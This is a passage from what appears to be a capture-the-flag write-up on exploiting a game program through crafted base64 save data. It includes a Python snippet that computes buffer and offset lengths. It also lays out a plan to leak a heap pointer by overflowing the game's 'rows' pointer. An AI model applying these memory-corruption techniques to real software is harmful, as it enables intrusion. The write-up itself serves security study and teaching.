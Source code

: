 $$
  704 - (\lceil |\texttt{base64}| \rceil^{(8)} + 8 + |\texttt{prefix}|)
$$

Or in Python (extending on the previous script):

```.py
# Calculate lengths and game data offset in extension
len_prefix = 20 + align(64, len(b64d(save)) - 20 + len_key + 9) - len_key
len_ext = int(514 - 1.75 * len_prefix)
len_b64 = (len_prefix + len_ext + 2) * 4 // 3
len_all = align(8, len_b64 + 1) + 8 + len_prefix
off_ext = 704 - len_all

info(f'|key|       = {len_key}')
info(f'|prefix|    = {len_prefix}')
info(f'|ext|       = {len_ext}')
info(f'|base64|    = {len_b64}')
info(f'|all|-|ext| = {len_all}')
info(f'game offset = {off_ext}')
```

#### Step 6

This is were our plan starts being a bit vague ("...").  If we can, somehow,
obtain a heap pointer we will be able to construct an arbitrary "game".

One way to leak a pointer is through the game tiles, but recall the internal
game representation: we would need to overflow the `rows` pointer with a pointer
to a "row" that has a pointer to a "game tile" which is really a heap pointer.

Here the internal representation again for reference:

<img src=game-representation.png />
